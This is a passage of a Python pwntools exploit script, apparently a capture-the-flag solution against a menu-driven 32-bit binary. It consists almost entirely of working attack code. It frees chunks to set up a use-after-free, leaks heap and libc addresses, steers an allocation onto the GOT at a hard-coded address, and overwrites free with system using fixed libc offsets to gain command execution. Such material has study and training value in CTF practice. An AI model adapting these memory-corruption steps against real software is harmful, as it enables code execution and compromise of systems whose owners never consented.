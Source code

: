```python
    p.readuntil('id:')
    p.sendline(str(index))

# setting question
def setQuestion(index, question):
    p.readuntil('choice,')
    p.sendline('s')
    p.readuntil('id')
    p.sendline(str(index))

    p.readuntil('question')
    p.sendline(question)

# ask a question
def askQuestion(index):
    p.readuntil('choice,')
    p.sendline('a')
    p.readuntil('id')
    p.sendline(str(index))
    p.readuntil("perhaps: '")


# legitimate creates
create()
create()

# to be manipulated
create()
create()

# delete
delete(2)
delete(0)
delete(1)

# read
askQuestion(1)

# cleanup
address = u32(p.readline()[:4])

# have try to malloc the got lol
got = 0x804b010
setQuestion(1, p32(address + 0x20))
setQuestion(0, p32(got))
create()
create()

# leak libc
askQuestion(5)

# Calculating offsets to keep the got intact
libc = u32(p.recvn(4))
system = libc - 0x140d0
getchar = libc + 0x1cf70
fgets = libc + 0x14ce0

# set everything using the overflow until __stack_chk_fail
# which can be corrupted since it never gets called
# Overwrite free with system
setQuestion(5, p32(libc) + p32(0) + p32(system)
            + p32(getchar) + p32(fgets))

```